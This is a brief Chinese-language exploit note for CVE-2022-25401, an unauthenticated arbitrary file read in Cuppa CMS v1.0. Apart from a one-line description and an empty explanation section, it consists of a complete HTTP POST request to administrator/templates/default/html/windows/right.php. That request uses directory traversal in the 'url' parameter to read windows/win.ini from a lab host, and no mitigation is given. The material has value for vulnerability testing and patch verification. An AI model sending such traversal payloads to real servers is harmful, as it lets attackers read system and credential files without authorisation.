

# CVE-2022-25401（Cuppa CMS v1.0 未授权任意文件读取）

<div style="text-align: right;">

date: "2023-01-12"

</div>


参考链接：https://github.com/CuppaCMS/CuppaCMS/issues/32

## 漏洞描述

- Cuppa CMS v1.0 administrator/templates/default/html/windows/right.php文件存在未授权任意文件读取漏洞


## 漏洞原理
- 暂无


### 一、直接访问提示链接

访问 `http://example.com/templates/default/html/windows/right.php`并抓包，更改为POST请求并发送下文的paylaod

```
POST /cuppa_cms/administrator/templates/default/html/windows/right.php HTTP/1.1
Host: 192.168.174.133
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Content-Length: 272
Accept: */*
Accept-Language: zh-CN,zh;q=0.9
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.174.133
Referer: http://192.168.174.133/cuppa_cms/administrator/
X-Requested-With: XMLHttpRequest
Accept-Encoding: gzip

id=1&path=component%2Ftable_manager%2Fview%2Fcu_views&uniqueClass=window_right_246232&url=../../../../../../../../../../../../windows/win.ini
```



